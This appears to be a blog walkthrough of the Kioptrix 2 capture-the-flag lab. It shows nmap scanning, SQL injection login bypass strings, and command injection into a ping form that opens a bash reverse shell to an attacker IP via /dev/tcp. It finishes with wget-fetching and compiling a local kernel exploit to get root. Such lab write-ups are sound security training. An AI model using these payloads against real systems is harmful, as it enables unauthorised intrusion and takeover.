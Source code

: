 
Kioptrix 2 is the second web application hacking challenge created by Loneferret. If you need help setting up your VM see some of my troubleshooting tips in [my Kioptrix 1 Walkthrough]().

### Step 1: Recon

After you get both your target VM (Kioptrix2) and your attacker VM (Kali/Parrot/etc.) spun up, the first step is going to be to identify your IP addresses. Start by running an **ifconfig** on your Kali Machine.
![](/images/kioptrix2/kioptrix2-1.png)


Next let's use **nmap** to run a ping sweep on the local network. This is a quieter scan that the typical 1000 port nmap scan and uses ICMP echo requests to identify live hosts on the network. We're typically going to use the first three octets of the IP address we discovered in the step above followed by 0/24. So for example:
![](/images/kioptrix2/kioptrix2-2.png)

We can see a few hosts pop up on this scan. Generally you can eliminate the highest and lowest IPs since they're usually virtualized network appliances. The other two IPs end in .133 (which we know is the attacking machine) and .128 (which is most likely our target). To test this theory, plug the target IP address into a browser on your attacker machine. You should see a simple login page.
![](/images/kioptrix2/kioptrix2-4.png)

Great! Now that we have identified our attacker and target IP addresses, lets start enumerating the open ports and running services on the target VM. I like to start with an nmap "Syn Scan" (-sS) which sends syn requests (Step one in the TCP three way handshake) to identify open ports.
![](/images/kioptrix2/kioptrix2-3.png)

Another helpful nmap scan to run is the "Version scan" (-sV), which will grab banners of running services to find out their versions. It's also has the benefit of returning very clean looking results, cleaner than the intensive "advanced scan" (-A).

![](/images/kioptrix2/kioptrix2-12.png)


### Step 2: Poke the Bear

Now that we know a little bit more about our target, let's go back to inspecting the web page with the login form.
We know that the target has a MySQL port open. Why don't we try some classic SQL injection authentication bypasses?

My two favorite cheat sheets for SQL Authentication bypass are: 
- [Pentest Lab Blog](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)
- [Netsparker Blog](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

If you've never tried this before, take a minute to look over the two links above and try a few methods yourself.

There are several methods that will work here:
> admin' 1=1 -- \
> admin' 1=1 #
> admin' #

### Step 3: Get in the Bear's House

Now that we've bypassed the login screen we're at a page with a tool that accepts user input and runs a ping scan.

![](/images/Kioptrix2/kiotrix2-5.png)


The concept behind command injection is similar to sqlinjection. Instead of passing some input and using a comment character to stop the rest of sql query, we're going to try some special characters used to string together commands.
; will allow you to escape the underlying program and pass commands
You can even string together multiple multiple commands with &&



Let's see if we can get a bash reverse shell.

For a great reverse shell cheat sheet check out the [Pentest Monkey Blog](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Start by setting up a netcat listener on your attacker machine. 
`**nc -nvlp 4444**`

And then pass the reverse shell script into the ping tool.

`**; bash -i >& /dev/tcp/192.168.65.133/4444 0>&1**`

![](/images/kioptrix2/kioptrix2-6.png)
Boom! We've got our low priv shell.

### Step 4: Own the Bear
Next we begin enumerating more about the machine to plan our privesc approach.
I usually start by gathering information about the OS version, kernel version, and users.
![](/images/kioptrix2/kioptrix2-7.png)

CentOS 4.5 final has the following exploit:
[https://www.exploit-db.com/exploits/9542/]

Since I have my vulnerable VM set up in Host Only mode to segregate it from the internet, I spool up a simple python web sever on my attacker machine with the exploit file in it.

![](/images/kioptrix2/kioptrix2-8.png)
I then use the wget command on my target machine to download the exploit from my attacker.
![](/images/kioptrix2/kioptrix2-9.png)

There are no special insructions in this exploit for compiling the code, so we use the most basic gcc compile.
`**gcc kioptrix2.c -o kioptrix2**`

Then all that's left to do is to run the exploit on the target
![](/images/kioptrix2/kioptrix2-10.png)

Root shell!! 

Thanks for reading. Check back next week for a writeup of Kioptrix 3.







